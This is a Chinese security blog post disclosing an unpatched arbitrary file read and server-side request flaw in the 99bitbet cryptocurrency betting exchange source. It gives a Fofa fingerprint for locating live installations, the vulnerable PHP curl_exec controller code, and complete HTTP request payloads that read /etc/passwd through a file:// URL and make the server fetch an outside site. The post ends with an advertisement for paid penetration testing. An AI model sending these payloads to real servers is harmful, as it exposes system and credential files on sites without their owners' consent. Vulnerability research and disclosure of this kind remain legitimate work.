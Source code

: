 #  【0day】99bitbet双语言交易所存在前台任意文件读取漏洞   
原创 Mstir  星悦安全   2024-12-17 12:13  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**99bitbet双语言Usdt竞猜源码/海外PC28虚拟货币竞猜玩法/根据虚拟货币行情走势自动开奖结算/带预设开奖结果，****首页加了一个k线图表走势，只是为了美观，不做其他用途，自己研究。**  
  
**Fofa指纹:****"/vue/mainbg.png"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5d8vXH9IUQXiblqfFfDTcBRdEYTSZXW2icibl5M6tS8zReQOibzuJLoBvuXd3IQZKicEbR8jEWNZw2nECg/640?wx_fmt=other&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5d8vXH9IUQXiblqfFfDTcBRdlkiccgUvnJPHJQyXuQhRHB0a5M6v8nupzbFe2YgkZ9Pzjl7v5MibRPOg/640?wx_fmt=png&from=appmsg "")  
  
**框架:ThinkCMF Debug:False**  
## 0x01 漏洞分析&复现  
  
**位于 /card/controller/CardController.php 控制器的toPost方法存在Curl_exec函数，且传参 str,url均可控，导致漏洞产生.**  
  
```
public function toPost($str,$url,$second=30){  
  //初始化curl       
  $ch = curl_init();
  //设置超时
  curl_setopt($ch, CURLOPT_TIMEOUT, $second);
  //这里设置代理，如果有的话
  //curl_setopt($ch,CURLOPT_PROXY, '8.8.8.8');
  //curl_setopt($ch,CURLOPT_PROXYPORT, 8080);
  curl_setopt($ch,CURLOPT_URL, $url);
  curl_setopt($ch,CURLOPT_SSL_VERIFYPEER,FALSE);
  curl_setopt($ch,CURLOPT_SSL_VERIFYHOST,FALSE);
  //设置header
  curl_setopt($ch, CURLOPT_HEADER, FALSE);
  //要求结果为字符串且输出到屏幕上
  curl_setopt($ch, CURLOPT_RETURNTRANSFER, TRUE);
  //post提交方式
  curl_setopt($ch, CURLOPT_POST, TRUE);
  curl_setopt($ch, CURLOPT_POSTFIELDS, $str);
  //运行curl
  $data = curl_exec($ch);
  //返回结果

  if($data){
    curl_close($ch);
    return $data;
  }else{
    $error = curl_errno($ch);
    echo "ERR";
    curl_close($ch);
    return false;
  }

```  
  
  
**Payload:**  
```
GET /card/card/toPost?str=1&url=file:///etc/passwd HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Cookie: thinkphp_show_page_trace=0|0; PHPSESSID=1quhk8vc3a0e6hf9gu7h3nc5qm; think_var=en
Host: 127.0.0.1:81
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5d8vXH9IUQXiblqfFfDTcBRdia5Y4Rm69tdbicFM00aHEAiaeqnXYDPhRAbhBZJ4P6DUice40hmicdrSIbQ/640?wx_fmt=jpeg&from=appmsg "")  
```
GET /card/card/toPost?str=1&url=https://www.baidu.com HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Cookie: thinkphp_show_page_trace=0|0; PHPSESSID=1quhk8vc3a0e6hf9gu7h3nc5qm; think_var=en
Host: 127.0.0.1:81
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5d8vXH9IUQXiblqfFfDTcBRdkUYQV7xQBAWJ3bDZGxoibetyTAic8jZaNunpMm1iaOuT5AqnNxdMHzb6Q/640?wx_fmt=jpeg&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**99bit源码关注公众号发送 241217 获取!**  
  
  
  
  
  
****  
**承接代码审计，众测，驻场，渗透测试，攻防演练等项目，CNVD证书全网最低价+VX: Lonely3944**  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
